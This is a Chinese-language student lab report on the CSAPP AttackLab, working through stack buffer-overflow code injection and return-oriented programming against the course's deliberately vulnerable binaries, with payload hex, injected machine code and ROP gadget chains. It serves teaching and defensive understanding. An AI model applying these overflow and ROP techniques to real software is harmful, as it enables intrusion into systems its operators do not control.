





# CSAPP AttackLab 实验报告

## 实验目的

本实验旨在通过实践缓冲区溢出攻击技术，深入理解：
- 程序栈帧结构和函数调用机制
- 缓冲区溢出漏洞的成因与利用方式
- 代码注入（Code Injection）攻击原理与实现
- 返回导向编程（Return-Oriented Programming，ROP）攻击技术
- 现代系统安全防御措施（如栈随机化、不可执行栈等）的工作原理
- x86-64 汇编语言和栈内存结构的实际应用

## 实验思路与技术

### Phase 1: 简单栈溢出攻击

#### 目标
修改 `getbuf()` 函数的返回地址，使其返回到 `touch1()` 函数而非正常的 `test()` 函数。

#### 技术分析
1. 通过 `objdump -d` 反汇编目标程序，分析 `getbuf()` 函数：
   ```assembly
   4017a8: 48 83 ec 28          sub    $0x28,%rsp
   4017ac: 48 89 e7             mov    %rsp,%rdi
   4017af: e8 8c 02 00 00       callq  401a40 <Gets>
   4017b4: b8 01 00 00 00       mov    $0x1,%eax
   4017b9: 48 83 c4 28          add    $0x28,%rsp
   4017bd: c3                   retq
   ```

2. 发现 `getbuf()` 分配了 0x28（40）字节的栈空间，但 `Gets()` 函数没有长度检查
3. 查找 `touch1()` 函数的地址为 `0x4017c0`

#### 攻击实现
1. 构造 40 字节填充 + 目标地址的 Payload：
   ```
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
   ```

2. 注意地址使用小端序（Little Endian）表示
3. 使用 `hex2raw` 工具将十六进制字符串转换为二进制输入

### Phase 2: 带参数的代码注入攻击

#### 目标
修改返回地址到 `touch2()` 函数，并且需要传入 cookie 值作为参数（存放在 %rdi 寄存器）。

#### 技术分析
1. 通过反汇编分析 `touch2()` 函数：
   ```c
   void touch2(unsigned val) {
     vlevel = 2;
     if (val == cookie) {
       printf("Touch2!: You called touch2(0x%.8x)\n", val);
       validate(2);
     } else {
       printf("Misfire: You called touch2(0x%.8x)\n", val);
       fail(2);
     }
     exit(0);
   }
   ```

2. 需要将 cookie 值存入 %rdi 寄存器作为第一个参数
3. 攻击思路：注入能够设置 %rdi 并跳转到 touch2 的代码

#### 攻击实现
1. 编写汇编代码：
   ```assembly
   movq $0x59b997fa, %rdi   /* 设置 cookie 值到 %rdi */
   pushq $0x4017ec          /* touch2 的地址 */
   retq                     /* 返回，将跳转到 touch2 */
   ```

2. 使用 GCC 和 objdump 将其转换为机器码：
   ```
   48 c7 c7 fa 97 b9 59     /* movq $0x59b997fa, %rdi */
   68 ec 17 40 00           /* pushq $0x4017ec */
   c3                       /* retq */
   ```

3. 构造最终 Payload：
   - 注入代码
   - 填充至 40 字节
   - 注入代码的起始地址 (栈顶地址，通过 GDB 调试获取)

### Phase 3: 字符串参数的代码注入攻击

#### 目标
修改返回地址到 `touch3()` 函数，并传入字符串形式的 cookie 值。

#### 技术分析
1. 分析 `touch3()` 函数和 `hexmatch()` 函数：
   ```c
   /* Compare string to hex represention of val */
   int hexmatch(unsigned val, char *sval) {
     char cbuf[110];
     char *s = cbuf + random() % 100;
     sprintf(s, "%.8x", val);
     return strncmp(sval, s, 9) == 0;
   }

   void touch3(char *sval) {
     vlevel = 3;
     if (hexmatch(cookie, sval)) {
       printf("Touch3!: You called touch3(\"%s\")\n", sval);
       validate(3);
     } else {
       printf("Misfire: You called touch3(\"%s\")\n", sval);
       fail(3);
     }
     exit(0);
   }
   ```

2. 需要将字符串地址传入 %rdi 寄存器
3. 字符串需要是 cookie 的 ASCII 十六进制表示
4. 注意：函数调用可能会修改栈内容，需要将字符串放在安全位置

#### 攻击实现
1. 将 cookie 值 (0x59b997fa) 转换为 ASCII 字符串 "59b997fa"
2. 编写汇编代码，设置字符串地址到 %rdi 并调用 touch3
3. 设计 Payload 布局，将字符串放在返回地址之后的安全位置
4. 最终 Payload 结构：
   - 注入代码
   - 填充至 40 字节
   - 注入代码起始地址
   - cookie 字符串 (带 null 终止符)

### Phase 4: 简单 ROP 攻击

#### 目标
在不允许执行栈上代码的情况下，使用 ROP 技术调用 `touch2()` 并传入正确的 cookie 参数。

#### 技术分析
1. 分析目标程序 `rtarget`，启用了栈随机化和栈不可执行保护
2. ROP 攻击原理：利用程序已有的代码片段（gadget）构造执行链
3. 需要寻找能够设置 %rdi 寄存器的 gadget

#### 攻击实现
1. 使用 `objdump -d rtarget > rtarget.s` 获取完整反汇编
2. 在给定的 `farm.c` 中寻找有用的 gadget：
   ```assembly
   /* 找到设置 %rdi 的 gadget，例如: */
   58                      /* popq %rax */
   90                      /* nop */
   c3                      /* retq */
   
   /* 以及: */
   48 89 c7                /* mov %rax, %rdi */
   c3                      /* retq */
   ```

3. 构造 ROP 链：
   - 40 字节填充
   - gadget1 地址 (popq %rax; retq)
   - cookie 值 (0x59b997fa)
   - gadget2 地址 (movq %rax, %rdi; retq)
   - touch2 地址 (0x4017ec)

### Phase 5: 复杂 ROP 攻击

#### 目标
使用 ROP 技术调用 `touch3()` 并传入正确的字符串参数。

#### 技术分析
1. 需要解决的主要问题：
   - 获取栈上字符串的地址
   - 将地址设置到 %rdi 寄存器
   - 保护字符串不被函数调用破坏

2. 由于启用了栈随机化，不能直接硬编码地址
3. 需要使用相对寻址或计算地址的方法

#### 攻击实现
1. 在 farm.c 中寻找用于地址计算的 gadget：
   ```assembly
   /* 例如获取栈指针: */
   48 89 e0                /* mov %rsp, %rax */
   c3                      /* retq */
   
   /* 地址计算: */
   48 8d 04 37             /* lea (%rdi,%rsi,1), %rax */
   c3                      /* retq */
   ```

2. 设计 ROP 链执行流程：
   - 获取栈指针值
   - 计算字符串地址（相对于当前栈位置的偏移）
   - 将计算结果设置到 %rdi
   - 调用 touch3

3. 最终 Payload 布局：
   - 40 字节填充
   - 多个 gadget 地址和参数，形成 ROP 链
   - cookie 字符串 "59b997fa"

## 实验结果

各阶段攻击成功截图如下：







## 实验总结

### 技术收获
1. 深入理解了 x86-64 栈帧结构和函数调用约定
2. 掌握了缓冲区溢出攻击的基本原理和实现技术
3. 学会了使用 GDB、objdump 等工具进行程序分析和调试
4. 理解了代码注入和 ROP 攻击的异同和适用场景
5. 认识到了现代安全防御措施的作用机制和局限性

### 安全启示
1. 始终对用户输入进行边界检查，避免缓冲区溢出
2. 采用安全的字符串和内存处理函数
3. 启用现代系统安全防护措施（ASLR、DEP、Stack Canary 等）
4. 即使有防护措施，复杂的 ROP 攻击仍可能绕过部分保护

### 工具使用体会
- GDB：强大的调试工具，对分析栈内存和寄存器状态至关重要
- objdump：反汇编工具，帮助理解程序结构和寻找 gadget
- hex2raw：辅助工具，将设计的攻击载荷转换为二进制输入

通过本实验，不仅掌握了攻击技术，更重要的是理解了如何编写更安全的程序和系统，这对未来的软件开发具有重要的指导意义。